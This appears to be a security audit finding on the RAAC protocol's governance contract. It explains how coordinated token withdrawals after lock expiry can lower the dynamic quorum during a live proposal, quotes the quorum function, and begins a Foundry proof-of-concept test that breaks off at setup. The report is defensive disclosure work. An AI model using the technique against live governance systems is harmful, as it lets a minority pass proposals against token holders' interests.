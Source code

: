 Ability to withdraw locked tokens after expiry

No quorum freezing mechanism during active proposals

Through detailed testing (testTimingAttackOnQuorum), i have dome my best to demonstrat how attackers can artificially lower the quorum requirement mid-proposal by coordinating withdrawals after lock expiry. This enables a minority stakeholder to pass proposals that would otherwise require significantly more support.

The proof of concept shows an attack reducing the quorum from 14,000e18 to 6,000e18 tokens, allowing a proposal to pass with just 99,726e18 votes - far less than what would have been required under the initial quorum.

Vulnerability Details
Quorum Calculation: https://github.com/Cyfrin/2025-02-raac/blob/89ccb062e2b175374d40d824263a4c0b601bcb7f/contracts/core/governance/proposals/Governance.sol#L353

```solidity 
function quorum() public view returns (uint256) {
    uint256 totalVotingPower = _veToken.getTotalVotingPower();
    return totalVotingPower * QUORUM_PERCENTAGE / 100;  // Dynamic calculation
}
```
Multiple coordinating attacker token holders

Patience to wait for lock expiry

Sufficient initial voting power to meet reduced quorum

Timing coordination for withdrawals

### Proof of code;

```solidity 
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;
​
import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../../../../../contracts/core/governance/proposals/Governance.sol";
import "../../../../../contracts/core/governance/proposals/TimelockController.sol";
import "../../../../../contracts/interfaces/core/governance/proposals/IGovernance.sol";
import "../../../../../contracts/interfaces/core/tokens/IveRAACToken.sol";
import "../../../../../contracts/core/tokens/veRAACToken.sol";
import "../../../../../contracts/core/tokens/RAACToken.sol";
​
contract GovernanceTest is Test {
    Governance public governance;
    TimelockController public timelock;
    veRAACToken public veToken;
    RAACToken public raacToken;
​
    address public admin = address(this);
    address public attacker = makeAddr("attacker");
    address[] public attackerAccounts;
    uint256 constant NUM_ACCOUNTS = 5;
​
    function setUp() public {
        // Deploy real RAAC token
        raacToken = new RAACToken(
            admin,      // initial owner
            100,        // 1% swap tax
            50          // 0.5% burn tax
        );
        
        // Set up minter role and mint initial tokens
        raacToken.setMinter(address(this));
        
```